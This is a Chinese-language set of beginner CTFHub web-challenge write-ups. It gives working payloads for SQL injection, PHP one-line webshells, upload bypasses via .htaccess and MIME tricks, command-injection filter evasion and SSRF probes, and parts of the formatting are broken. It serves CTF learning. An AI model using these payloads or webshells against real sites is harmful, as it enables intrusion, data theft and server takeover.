

CTFHub入门笔记
收集和记录一下CTF入门的write up
网站
- 刷题
- CTFHUB 对新人极其友好，可以快速入门CTF
- https://buuoj.cn/login?next=%2Fchallenges%3F
- https://ctf.bugku.com/
- 搜索引擎
工具
BurpSuite
Burp Suite是一个功能强大的集成渗透测试工具，旨在帮助安全测试人员执行各种 Web 应用程序安全测试。它提供了多个模块，包括代理、扫描器、爬虫、反射器、拦截器、重放器等功能，可协助测试人员发现应用程序中的漏洞，如SQL注入、跨站点脚本（XSS）、身份验证和会话问题、CSRF、文件包含漏洞等。
WiresShark
Wireshark是一款网络协议分析工具，可以帮助用户捕获和分析网络数据包。它能够实时抓取和展示网络上所有传输的数据，并提供多种过滤机制和统计图表，能够深入了解网络通信的细节，发现网络通信中可能存在的问题。
fscan
fscan是一款基于Python的网络渗透测试工具，它可以用于目标发现、端口扫描、漏洞检测等方面。fscan能够快速扫描大量IP地址和端口，并提供了多种扫描方式和过滤规则，例如TCP和UDP端口扫描、服务识别、OS指纹识别等。
GitHack
GitHack指的是一种基于Git版本控制系统的攻击技术。攻击者可以使用GitHack来获取敏感信息或执行未经授权的操作。攻击者通常会在Git上查找敏感信息，例如密码或私钥，并利用这些信息进一步入侵目标系统。
dvcs-ripper
可以支持svn、hg等文件下载
PostMan
Postman是一个接口测试工具,在做接口测试的时候,Postman相当于一个客户端,它可以模拟用户发起的各类HTTP请求,将请求数据发送至服务端,获取对应的响应结果, 从而验证响应中的结果数据是否和预期值相匹配;并确保开发人员能够及时处理接口中的bug,进而保证产品上线之后的稳定性和安全性
Web
前置技能
请求方式
- 思路：使用PostMan，修改请求方式为CTFHUB
302跳转
使用浏览器访问index.php时，发现F12中network有302
- 思路：使用curl访问index.php即可，因为curl不支持302跳转
参考，使用burpsuite的repeater功能
基础认证
参考，使用burpsuite的Intruder功能
响应包源代码
使用F12直接在前端源代码里面查看
信息泄露
目录遍历
由于配置错误导致网站的目录可被遍历。
- 思路：我们遍历网站即可找到结果
phpinfo
phpinfo()是php中查看相关信息的函数，当在页面中执行phpinfo()函数时，php会将自身的所有信息全部打印出来。在phpinfo中会泄露很多服务端的一些信息
- 思路：flag暴露在phpinfo中
hg泄露
- 思路：使用dirsearch发现有.hg文件夹，使用dvcs-ripper下载目录，但是工具没有将所有文件下下来，使用
tree命令来查看目录，分析发现txt文件中有add flag，使用grep -a -r flag查看flag存在的文件名，通过curl来查看文件。
SVN泄露
- 思路：使用dirsearch发现有.svn文件夹，使用dvcs-ripper下载目录，从 wc.db 中找到 flag 的文件的文件名, 尝试访问结果发现被删除了。查看
.svn/pristine/中的文件，找到flag
Git泄露
- 思路：使用dirsearch发现有.git文件夹，使用githack工具将网站里的.git文件夹下载到本地
log
网站下可能有.git文件
- 思路：我们通过
git log查看提交日志，然后用过git diff来对比版本区别找到flag
Stash
git可能有的文件放到stash暂存
- 思路：通过
git stash list查看，执行 git stash pop 发现从 git 栈中弹出来一个文件，这个文件的内容就是 flag
index
使用git ls-file --stage查看index file文件，使用git log命令查看历史记录，通过git diff对比提交版本。
备份文件下载
网站源码
- 思路：网站源码可能放在目录里面，打开即可获取flag
bak文件
有些时候网站管理员可能为了方便，会在修改某个文件的时候先复制一份，将其命名为xxx.bak
- 思路：直接使用curl + url 即可访问
vim缓存
在使用vim时会创建临时缓存文件，关闭vim时缓存文件则会被删除，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容
以index.php为例：第一次产生的交换文件名为.index.php.swp，再次意外退出后会产生名为 .index.php.swo的交换文件，第三次产生的交换文件则为 .index.php.swn
- 思路：使用curl访问，或者使用wget下载到本地再查看
DS_Store
1 |
|
猜字段数（x为数字） 得出字段数
1 | xx = ? order by x |
爆数据库名
1 | xx = ? and 1=2 union select 1,database() |
爆表名
1 | xx = ? and 1=2 union select 1,...,group_concat(table_name) from information_schema.tables where table_schema='数据库名' |
爆列名
1 | xx = ? and 1=2 union select 1,...,group_concat(column_name) from information_schema.columns where table_name='flag' |
获得flag
1 | xx = ? and 1=2 union select 1,...,group_concat(flag) from flag.flag |
其中… 的数量为order by x中的x
字符型
字符型注入要考虑到 引号闭合 和 注释
判断注入
1 | ?id=1' and 1=1 # 返回正确 |
猜字段
1 | ?id=1' order by 2 # 返回正确 |
爆数据库名
1 | ?id=1' and 1=2 union select 1,database() |
爆表名
1 | ?id=1' and 1=2 union select 1,group_concat(table_name)from information_schema.tables where table_schema='sqli' |
爆列名
1 | ?id=1' and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag' |
爆字段内容（flag）
1 | ?id=1' and 1=2 union select 1,group_concat(flag) from sqli.flag |
报错注入
1 |
|
第一个参数 : 第一个参数可以传入目标xml文档
第二个参数： xml中的位置是可操作的地方，xml文档中查找字符位置是用 /xxx/xxx/xxx/…这种格式，如果我们写入其他格式，就会报错，并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容。
可以用 0x5c (‘)，还可以使用0x7e (~)，使得sql非法
查询数据库
1 | ?id=1 and extractvalue(1,concat(0x7e,database(),0x7e)) |
爆表名
1 | 1 and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) |
爆列名
1 | 1 and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='flag'),0x7e)) |
爆数据
1 | 1 and extractvalue(1,concat(0x7e,(select flag from flag),0x7e)) |
mid函数
MID()函数用于从文本字段中提取字符。 SELECT MID(column_name,start[,length]) FROM table_name;
| 参数 | 描述 |
|---|---|
| column_name | 必需。要提取字符的字段。 |
| start | 必需。规定开始位置（起始值是 1）。 |
| length | 可选。要返回的字符数。如果省略，则 MID() 函数返回剩余文本。 |
1 | 1 and extractvalue(1,concat(0x7e,mid((select flag from flag),1,16),0x7e)) |
布尔注入
只会返回正确或者错误，因此我们需要构造if语句进行注入，手动过程供参考，还是用sqlmap靠谱。
- 先猜测数据库长度
1 | 1 and (length(database()))>5 # 结果是error |
- 猜测数据库名
1 | 1 and ascii(substr(database(),1,1))>110 # 可以二分法来确认每个字母 |
- 得到数据库表中数量
1 | 1 and (select count(table_name) from information_schema.tables |
- 得到表名
1 | 1 and ascii(substr((select table_name from information_schema.tables |
- 猜测flag表的字段数
1 | 1 and (select count(column_name) from information_schema.columns |
- 猜测字段名
1 | 1 and ascii(substr((select column_name from information_schema.columns |
- 猜测flag
1 | 1 and ascii(substr((select * from sqli.flag where id=1),1,1))>110 |
MySQL结构
时间盲注
原理和布尔盲注差不多，通过返回时间来判断
1 | if((substr(database(),1,1)='s'),sleep(1),1) |
首先通过抓包，发现浏览器返回cookie: id=1
使用postman进行发包处理
1 | id = 1 order by 3 # 1和2均可回显，说明数据库有两行 |
为什么id=-1而不是1
1. 经过查阅资料得知，数据库中id的数据类型设置为int（数值类型）就会出现这种情况，如果数据库检查到id的参数并不为数值的话，就会发生类型转换 2. 本题ID=1，我想注入的时候就不能再注ID=1了(要查询数据库不存在的结果，否则存在的结果占位显示我们就看不到第二行的数据) 3. 用联合查询语句union select语句来注入，从而判断显示位,同时也是判断注入点，此时要先保证之前的数据查不出来才能判断注入位置，不然就会一直在注入当前的数据库，无法注入新的值来判断注入点，之后再union select id=-1数据不存在数据库中，可以看到位置2可以插入SQL语句。总结一下：
比如字符串’1’会被转换为1比如字符串’1”‘会被转换为1
比如’1 and 1=1’会被识别为1
比如’1 and 1=2’会被识别为1
比如’1akbucbdadbaiudadbabdaud’会被识别为1
比如’23adasuasdai32ansoiha’会被识别为23
字符串中数字后面的字符可以是任意的，类型转换时都会被忽略，不会对数值有任何的影响
为什么要用到
group_concat因为需要在一行输出所有的结果
UA注入
- 和cookie注入流程一致
Referer注入
- 和cookie注入流程一致
过滤空格
随着黑客技术的提升，我们开发人员的防护措施也越来越多，为了防止sql注入，开发人员通常会在后台过滤某些非正常用户输入的字符，例如union、select、单引号双引号等等。
- 可以通过/**/来代替空格
1 | 1 and 1 = 1 # 发现被过滤了 |
文件上传
- tips: MacBook上有个坑，上传隐藏文件时候需要配合命令
command+shift+.
无验证
- 通过Wappalyzer来查看当前页面的基础环境，如中间件，前后端语言等
- 将一句话木马上传到服务器
- php的一句话木马
1 | eval(@$_POST['a']); |
- 通过中国蚁剑进行控制，找到flag
前端验证
- 和无验证差不多，唯一的区别是前端检查了我们上传的文件名。
- 禁用js来解决
- 使用burpsuite，先将一句话木马后缀修改成.png，然后抓包后缀修改成php，从而达到攻击的目的
.htaccess
htaccess 文件是 Apache 服务器中的一个配置文件，它负责相关目录下的网页配置。通过 htaccess 文件，可以帮我们实现：网页 301 重定向、自定义 404 错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。
使用 FilesMatch 命令生成一个.htaccess 文件进行上传，绕过白名单中的漏洞
需要构造.htaccess文件，其中
FilesMatch就是我们要上传的文件1
2
3<FilesMatch "payload">
SetHandler application/x-httpd-php
</FilesMatch>上传一句话木马，名字为FilesMatch设置的
payload
使用passthru执行外部命令
- 第一步一样是构造.htaccess文件
- 第二步，使用passthru执行外部命令
1
2
3
passthru("ls /var/www/");然后通过浏览器访问
http://xxxx/upload/payload来执行命令1
2
3
passthru("cat /var/www/html/flag_828011517.php");添加.htaccess文件
- 句话的作用是：让jpg文件中的php语句执行，这句语句放到.htaccess文件中，Apache运行的时候会解析这个文件中的配置，检测到这句话以后，jpg文件中的php语句才会执行
1
AddType application/x-httpd-php .jpg
- 上传一句话木马，以.jpg结尾
- 使用蚁剑进行连接
MIME
- 上传php文件，并将content-type改成image/png即可
文件头检查
原理：服务器会检查png的头格式
截图上传文件，通过
burpsuite进行代理在图片后面添加一句话木马
1
2
3
eval($_REQUEST['a']);修改文件后缀.php
使用蚁剑连接
00截断
%00的使用是在路径上
就是在.php文件后加上%00后接.jpg，这里我们就可以绕过对php文件的过滤。在执行时，%00会把后面的.jpg截断，所以执行的时候他执行的仍然是前面的.php文件。就可以实现我们的马子文件的执行。
双写后缀
原理：服务器会替换后缀’php’->’’，因此我们只需要拼接后缀为”pphphp”即可
RCE
eval执行
进入后题目
1 |
|
尝试在URL中带上名为cmd的参数：（此处system()函数的作用为执行系统命令并输出执行结果）
1 | .../?cmd=system("pwd"); |
执行成功 此处需要注意参数结尾一定不能省略;，满足PHP语法才可以执行成功。
1 | .../?cmd=system("ls%20/"); |
文件包含
- 考察
include函数
访问shell页面，发现有一句话木马
1 | eval($_REQUEST['ctfhub']); |
假如在index.php中include了一个文件，那么不管这个文件后缀是什么 这个文件中的内容将会直接出现在index.php中，所以这道题的payload构造思路就是把shell.txt里的内容想办法放到index.php中去根据源码构造payload：
1 | ?file=shell.txt |
直接使用蚁剑后缀加上payload即可
php://input
常用到伪协议的php://input和php://filter.其中php://input要求allow_url_include设置为On
- 使用burp suite的repeater发送请求，构造请求报文
1 | POST /?file=php://input HTTP/1.1 |
得到返回
1 | HTTP/1.1 200 OK |
读取源代码
- 考点：
php://filter可以作为一个中间流来处理其他流，具有四个参数。
| 名称 | 描述 | 备注 |
|---|---|---|
| resource=<要过滤的数据流> | 指定了你要筛选过滤的数据流。 | 必选 |
| read=<读链的筛选列表> | 可以设定一个或多个过滤器名称，以管道符（ | ）分隔。 |
| write=<写链的筛选列表> | 可以设定一个或多个过滤器名称，以管道符（ | ）分隔。 |
| <；两个链的筛选列表> | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 |
这道题就直接构造payload了
1 | /?file=php://filter/resource=/flag |
有些比赛赛题情况下还要用base64输出
1 | /?file=php://filter/read=convert.base64-encode/resource=/flag |
使用burp suite
1 | GET /?file=php://filter/resource=/flag HTTP/1.1 |
返回
1 | HTTP/1.1 200 OK |
远程包含
- 解法1：和input那题解法一样
1 | POST /?file=php://input HTTP/1.1 |
返回
1 | HTTP/1.1 200 OK |
解法2：
题目目的是想让我们自己搭个服务器，然后让靶机远程包含我们的代码，但是我并没有租赁VPS。
命令注入
命令行注入漏洞是指web应用程序中调用了系统可执行命令的函数，而且输入参数是可控的，如果黑客拼接了注入命令，就可以进行非法操作了。
Windows系统支持的管道符如下：
- “|”：直接执行后面的语句。
- “||”：如果前面的语句执行失败，则执行后面的语句，前面的语句只能为假才行。
- “&”：两条命令都执行，如果前面的语句为假则直接执行后面的语句，前面的语句可真可假。
- “&&”：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则两条命令都执行，前面的语句只能为真。
Linux系统支持的管道符如下：
- “;”：执行完前面的语句再执行后面的语句。
- “|”：显示后面语句的执行结果。
- “||”：当前面的语句执行出错时，执行后面的语句。
- “&”：两条命令都执行，如果前面的语句为假则执行执行后面的语句，前面的语句可真可假。
- “&&”：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则两条命令都执行，前面的语句只能为真。
解法一：使用base64编码
我们在框内输入
1
2
3
4
5127.0.0.1 | ls # 输出两个php文件
127.0.0.1 | ls / #根目录没发现其他可疑文件
127.0.0.1 & cat 31007322329204.php # 未回显
127.0.0.1 & cat 31007322329204.php | base64 #使用base64编码
# 解码后获得<?php // ctfhub{ed09b50ed879851ad5b5a4d9}
解法二：重定向
- 我们可以用重定向的方法注入一个一句话木马
1
127.0.0.1&echo -e "<?php @eval(\$_POST['test']);?>" > shell.php
- 使用蚁剑连接即可
过滤cat
3.使用单引号绕过
127.0.0.1; c’’at flag_2287214057241.php |base64
4.使用双引号绕过
127.0.0.1; c””at flag_2287214057241.php |base64
5.利用Shell 特殊变量绕过
127.0.0.1; ca$@t flag_2287214057241.php|base64
过滤空格
空格可以用以下字符代替：< 、<>、%20(space)、%09(tab)、$IFS$9、 ${IFS}、$IFS等
$IFS在linux下表示分隔符，但是如果单纯的cat$IFS2，bash解释器会把整个IFS2当做变量名，所以导致输不出来结果，因此这里加一个{}就固定了变量名。
同理，在后面加个$可以起到截断的作用，使用$9是因为它是当前系统shell进程的第九个参数的持有者，它始终为空字符串。
过滤目录分割符
思路上来说应该是cat文件，必须要使用目录分隔符/，但是题目给过滤。需要另外寻找办法
- 法一：使用cd绕开
linux中：%0a 、%0d 、; 、& 、| 、&&、||
windows中：%0a、&、|
其中分号;的作用就是在 shell 中，担任”连续指令”功能
&&的方式：command1 && command2 如果command1执行成功，则执行command2
1 | ;cd flag_is_here;cat flag_164641924722716.php|base64 |
过滤运算符
- 发现题目没有过滤
;因此我们可以直接使用 - 在f12中的pre标签里面有注释
综合练习
题解一
%0a 代替 换行 ，
%09代替 TAB键 （因为flag被过滤了，所以我们通过TAB来补全flag_is_here ）%5c代替 \（用 \ 来分隔开 cat ，因为 cat 也被过滤了qwq）这题得在地址栏输入
1
2
3
4
5?ip=127.0.0.1%0als
?ip=127.0.0.1%0als%09*is_here
? # 查看flag_is_here文件夹下的文件ip=127.0.0.1%0acd%09*_is_here%0aca%5ct%09*_98358017212.php
# 注：%0a代替换行，%09代替TAB键（因为flag被过滤了，所以我们通过TAB来补全flag_is_here）
%5c代替\（用\来分隔开cat，因为cat也被过滤了qwq）在f12中能看到答案
source可以用ls sour\*，还可以使用ls \*rce 1
2
3
4
5
6
- 题解二
```cmd
127.0.0.1%0als${IFS}fl$*ag_is_here
127.0.0.1%0acd${IFS}fl$ag_is_here%0aca''t${IFS}fl$a*g_230191972813921.php # 因为过滤了cat，我们这里使用单引号绕过过滤，如ca''t 构造payload其中
''可以用%27代替，将cat的任意字母包裹。
SSRF
SSRT(Server-Side Request Forgery，服务器端请求伪造)，就是攻击者利用服务器能访问其他的服务器的功能，通过自己的构造服务器请求来攻击与外界不相连接的内网，我们知道内网与外网是不相通的，所以利用这一个特性，就可以利用存在缺陷的WEB应用作为代理 攻击远程 和 本地的服务器。

内网访问
- 考察
http://协议
1 | .../?url=http://127.0.0.1/flag.php |
伪协议读取文件
- 这一题的考点主要是file协议读取文件
1 | .../?url=file:///var/www/html/flag.php |
端口扫描
- 考察
dict://协议
使用burp suite进行端口扫描
1 | GET /?url=dict://127.0.0.1:§§ HTTP/1.1 |
然后注入使用数字从8000-9000，步进为1，发现端口8243的数据长度不一致。使用http://访问，http可以忽略
1 | http://challenge-235c64bde60462f1.sandbox.ctfhub.com:10800/?url=127.0.0.1:8243 |
POST请求
CRLF: “\r\n”, windows系统环境下的换行方式
LF: “\n”, Linux系统环境下的换行方式
在向服务器发送请求时，首先浏览器会进行一次 URL解码，其次服务器收到请求后，在执行curl功能时，进行第二次 URL解码。所以我们需要两次编码